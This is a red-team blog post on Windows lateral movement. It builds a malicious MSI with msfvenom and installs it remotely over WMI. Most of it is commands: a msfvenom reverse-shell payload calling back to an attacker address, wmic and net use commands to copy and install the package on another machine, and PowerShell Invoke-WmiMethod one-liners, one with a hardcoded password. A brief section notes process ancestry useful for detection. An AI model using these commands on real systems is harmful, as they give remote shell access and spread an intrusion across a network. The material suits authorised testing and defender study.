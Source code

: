 ```yaml
---
layout: post
title: "wmi + msi lateral movement"
date: 2024-06-18
categories: all_md_files
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /wmi-+-msi-lateral-movement/
---
```


---
layout: post
title: "wmi + msi lateral movement"
date: 2024-06-18
categories: lateral-movement
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /wmi-+-msi-lateral-movement/
---

---
description: WMI lateral movement with .msi packages
---

# WMI + MSI Lateral Movement

## Execution

Generating malicious payload in MSI (Microsoft Installer Package):

{% code title="attacker@local" %}
```csharp
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.0.5 LPORT=443 -f msi > evil64.msi
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2018-10-19 17-31-00.png>)

I tried executing the .msi payload like so, but got a return code `1619` and a quick search on google returned nothing useful:

{% code title="attacker@remote" %}
```csharp
wmic /node:10.0.0.7 /user:offense\administrator product call install PackageLocation='\\10.0.0.2\c$\experiments\evil64.msi'
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2018-10-19 18-45-55.png>)

I had to revert to a filthy way of achieving the goal:

{% code title="attacker@remote" %}
```csharp
net use \\10.0.0.7\c$ /user:administrator@offense; copy C:\experiments\evil64.msi \\10.0.0.7\c$\PerfLogs\setup.msi ; wmic /node:10.0.0.7 /user:administrator@offense product call install PackageLocation=c:\PerfLogs\setup.msi
```
{% endcode %}

![](<../../.gitbook/assets/Peek 2018-10-19 18-41.gif>)

Additionally, the same could of be achieved using powershell cmdlets:

{% code title="attacker@remote" %}
```csharp
Invoke-WmiMethod -Path win32_product -name install -argumentlist @($true,"","c:\PerfLogs\setup.msi") -ComputerName pc-w10 -Credential (Get-Credential)
```
{% endcode %}

Get a prompt for credentials:

![](<../../.gitbook/assets/Screenshot from 2018-10-19 19-02-10.png>)

and enjoy the code execution:

![](<../../.gitbook/assets/Screenshot from 2018-10-19 19-02-48.png>)

Or if no GUI is available for credentials, a oneliner:

{% code title="attacker@remote" %}
```csharp
$username = 'Administrator';$password = '123456';$securePassword = ConvertTo-SecureString $password -AsPlainText -Force; $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword; Invoke-WmiMethod -Path win32_product -name install -argumentlist @($true,"","c:\PerfLogs\setup.msi") -ComputerName pc-w10 -Credential $credential
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2018-10-19 19-09-42.png>)

## Observations

Note the process ancestry: `services > msiexec.exe > .tmp > cmd.exe`:

![](<../../.gitbook/assets/Screenshot from 2018-10-19 18-46-37.png>)

and that the connection is initiated by the .tmp file (I ran another test, hence another file name):

![](<../../.gitbook/assets/Screenshot from 2018-10-19 18-55-53.png>)

## References

{% embed url="https://www.cybereason.com/blog/wmi-lateral-movement-win32" %}

{% embed url="https://twitter.com/buffaloverflow/status/1002523407261536256" %}
@spotheplanet
